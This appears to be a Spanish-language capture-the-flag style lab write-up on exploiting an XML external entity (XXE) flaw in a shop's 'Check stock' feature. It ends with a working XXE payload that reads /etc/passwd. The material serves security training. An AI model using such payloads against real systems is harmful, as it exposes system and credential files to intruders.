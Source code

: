 # Lab: Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---


Iniciamos el laboratorio y nos encontramos con una aplicación de shopping:
![image](https://github.com/user-attachments/assets/56a61334-623e-4cfa-bd40-0b25b4550af0)

Accedemos a la descripción de un producto haciendo click en `View details`:
![image](https://github.com/user-attachments/assets/f8eae5bf-e647-4f4c-aff7-fb6974f55fee)

Este laboratorio nos dice que tiene una vulnerabilidad en la funcionalidad `Check stock`:
![image](https://github.com/user-attachments/assets/efc2f1da-39d8-411d-bcaa-bd09db8aa096)

Por lo que procedemos a analizarla:
![image](https://github.com/user-attachments/assets/e8f04b5b-299b-41ad-b709-99afa48379ff)

Esta captura muestra un escenario clásico y perfectamente explotable de XXE.

Estamos enviando información vía XML en la request:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
El servidor responde con 759, lo que indica que interpreta y procesa correctamente el XML enviado.

Indicios:
- El servidor está procesando directamente el contenido XML que el cliente envía, lo cual es el punto de partida para probar inyecciones de entidades externas.

- No hay evidencias de validación ni sanitización del XML.

- Si el servidor usa un parser vulnerable que permite entidades externas, podríamos intentar algo como:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```



